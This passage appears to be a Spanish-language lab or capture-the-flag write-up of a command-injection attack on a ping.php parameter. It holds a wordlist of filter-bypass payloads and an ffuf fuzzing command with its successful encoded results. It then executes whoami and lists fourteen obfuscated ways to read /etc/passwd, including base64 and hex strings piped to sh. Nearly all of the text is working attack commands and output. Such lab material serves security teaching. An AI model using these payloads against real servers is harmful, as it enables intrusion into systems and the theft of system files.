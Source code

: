 ```bash
w\h\o\a\m\i

# Path Traversal
cat /etc/./passwd
cat /etc/passwd/..
/bin/../bin/whoami

# Multi-Command
echo whoami|$0
echo$IFS$()'ls'|sh
`echo cGF5bG9hZA== | base64 -d`
```

Ahora fuzzeamos para ver si tenemos exito a la hora de ejecutar comando:
```bash
ffuf -u "http://172.17.0.2/ping.php?ip=172.17.0.2;FUZZ" -w command_bypass.txt --enc 'FUZZ:urlencode' -fs 21
```

Resultados:
```bash
%5Cu%5Cn%5Ca%5Cm%5Ce+%5C-%5Ca [Status: 200, Size: 126, Words: 11, Lines: 2, Duration: 5ms]
w%5Ch%5Co%5Ca%5Cm%5Ci   [Status: 200, Size: 31, Words: 1, Lines: 2, Duration: 4ms]
X%3D%24%27cat%5Cx20%2Fetc%2Fpasswd%27%26%26%24X [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 3ms]
wh%5Coa%5Cmi            [Status: 200, Size: 31, Words: 1, Lines: 2, Duration: 3ms]
whoa%5Cmi               [Status: 200, Size: 31, Words: 1, Lines: 2, Duration: 3ms]
w%5Ch%5Co%5Ca%5Cm%5Ci   [Status: 200, Size: 31, Words: 1, Lines: 2, Duration: 3ms]
p%5C                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 2489ms]
i%5C                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 3493ms]
p%5Ci%5Cn%5Cg           [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 3496ms]
n%5C                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 4510ms]
```
### Ejecucion del Ataque
Ahora realizamos el ataque y vemos que funciona:
```bash
http://172.17.0.2/ping.php?ip=172.17.0.1;w%5Ch%5Co%5Ca%5Cm%5Ci
```

Retornandonos el output del comando **whoami**
```bash
www-data
```

Ahora intentaremos leer el contenido del archivo **passwd** Con Técnicas de bypass para: cat **/etc/passwd**
```bash
 1. c?a*t /?e*tc/?p*a*sswd
 2. 'cat' "/etc" "/passwd"
 3. \c\a\t \/\e\t\c \/\p\a\s\s\w\d
 4. $(cat /etc/passwd)
 5. `cat /etc/passwd`
 6. {cat,/etc,/passwd}
 7. c$ua$ut$u $u/$ue$ut$uc$u $u/$up$ua$us$us$uw$ud
 8. c${u}}a${u}}t${u}} ${u}}/${u}}e${u}}t${u}}c${u}} ${u}}/${u}}p${u}}a${u}}s${u}}s${u}}w${u}}d
 9. cat${IFS}/etc${IFS}/passwd
10. cat<//etc//passwd
11. echo${IFS}Y2F0IC9ldGMvcGFzc3dk${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}sh
12. x=cat;${x} /etc/passwd
13. echo cat /etc/passwd | sh
14. $'printf${IFS}"\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"' | sh
```
